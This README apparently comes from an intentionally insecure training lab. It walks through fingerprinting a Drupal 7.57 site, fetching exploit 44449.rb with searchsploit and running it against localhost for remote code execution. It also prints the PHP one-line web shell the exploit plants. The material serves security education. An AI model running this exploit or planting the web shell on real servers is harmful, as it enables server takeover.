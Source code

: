 # Cimentech

<p align="center">
    <img src="images/attack1.png"/></br>
    <a href="README_PT_BR.md"><img height="24" title="Acessar conteúdo em Português" src="https://img.shields.io/badge/Acessar%20conte%C3%BAdo%20em-Portugu%C3%AAs-blue"/></a>
</p>

Cimentech is a simple web application built with Drupal that contains an example of a component with a known vulnerability and its main goal is to demonstrate how an attacker could exploit it.

## Index

- [Cimentech](#cimentech)
  - [Index](#index)
  - [What does it mean to use a component with known vulnerabilities?](#what-does-it-mean-to-use-a-component-with-known-vulnerabilities)
  - [Setup](#setup)
  - [Get to know the app 🏗](#get-to-know-the-app-)
  - [Attack narrative](#attack-narrative)
  - [Use of a vulnerable Drupal version allows for remote code execution](#use-of-a-vulnerable-drupal-version-allows-for-remote-code-execution)
  - [Secure this app](#secure-this-app)
  - [PR solutions](#pr-solutions)
  - [Contributing](#contributing)

## What does it mean to use a component with known vulnerabilities?

Imagine that components, such as libraries, frameworks, and other software modules, run with the same privileges as the application. If a vulnerable component is exploited, such an attack can facilitate serious data loss or server takeover. Applications and APIs using components with known vulnerabilities may undermine application defenses and enable various attacks and impacts.

The main goal of this app is to discuss how **Vulnerable and Outdated Components** can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][docker install] and [Docker Compose][docker compose install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2021-apps/a6/cimentech
```

```sh
make install
```

Then simply visit [localhost][app] ! 😆

## Get to know the app 🏗

To properly understand how this application works, you could:

- Visit its homepage!

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Use of a vulnerable Drupal version allows for remote code execution

It's possible to reach the server's web application from the standard HTTP port 80, as shown by the image below:

<img src="images/attack1.png" align="center"/>

Afterward, by having a look at the `/robots.txt` file, it's possible to find the `CHANGELOG.txt` file in the `Disallow` field, as depicted by the image below:

<img src="images/attack2.png" align="center"/>

When accessed, an indication of the version of the Content Management System (Drupal) can be found, as shown below:

<img src="images/attack3.png" align="center"/>

Having the CMS version, it's possible to check on [exploit-db][3] if there are any exploits associated with that version, in this case, Drupal 7.57. The results of the search are depicted in the image below:

<img src="images/attack4.png" align="center"/>

By using [searchsploit](https://www.exploit-db.com/searchsploit), an attacker could also find this same result via a terminal. To install it, simply type the following in your OSX terminal (keep in mind it might trigger your anti-virus software) :

```sh
⚠️ 'The next command will install several exploit codes in your system and many of them may trigger antiviruses alerts'

brew install exploitdb
```

Then simply search for the version of the CMS found:

```sh
searchsploit drupal 7.
```

If you are using OSX, this command will help you to copy the exploit to your `/tmp` folder:

```
cp /usr/local/opt/exploitdb/share/exploitdb/exploits/php/webapps/44449.rb /tmp
```

## 🔥

Running the malicious Ruby code, we have evidence that remote code execution is possible on the web server, using the following commands as shown below:

```sh
ruby /tmp/44449.rb http://localhost
```

<img src="images/attack5.png" align="center"/>

**NOTE**: You need to have Ruby installed on your system to run the exploit, for information on how to install it, click [here][1]!

**NOTE 2**: If you came across an execution error when trying to run the exploit, please have a look at this [Issue][4] for information on how to proceed.

The exploit works by adding into the server a malicious `s.php`, which allows remote code execution on it via following malicious content:

```php
<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
```

Using the exploit's "fake shell", we can type a command, such as `whoami`, to verify that we indeed have an RCE on the server, as shown by the image:

<img src="images/attack6.png" align="center"/>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

- Execute code remotely through the exploit above

## PR solutions

[Spoiler alert 🚨] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3ACimentech)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:80
[secdevlabs]: https://github.com/globocom/secDevLabs
[1]: https://www.ruby-lang.org/en/documentation/installation/
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2021-apps/a6/Cimentech
[3]: https://www.exploit-db.com/
[4]: https://github.com/globocom/secDevLabs/issues/212

